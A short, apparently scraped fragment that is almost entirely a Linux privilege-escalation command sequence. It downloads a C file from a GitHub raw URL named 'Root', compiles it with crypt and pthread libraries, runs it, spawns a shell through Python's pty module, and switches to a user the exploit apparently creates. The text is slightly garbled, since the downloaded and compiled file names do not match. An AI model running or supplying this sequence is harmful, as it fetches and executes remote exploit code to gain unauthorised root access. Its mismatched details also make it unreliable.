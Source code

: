 cd /tmp
mkdir tes
wget https://raw.githubusercontent.com/alivos7/Root/1.c
gcc -pthread root1.c -o g7 -lcrypt
chmod +x g7
./g7
python -c 'import pty; pty.spawn("/bin/sh")'
su ganestseven
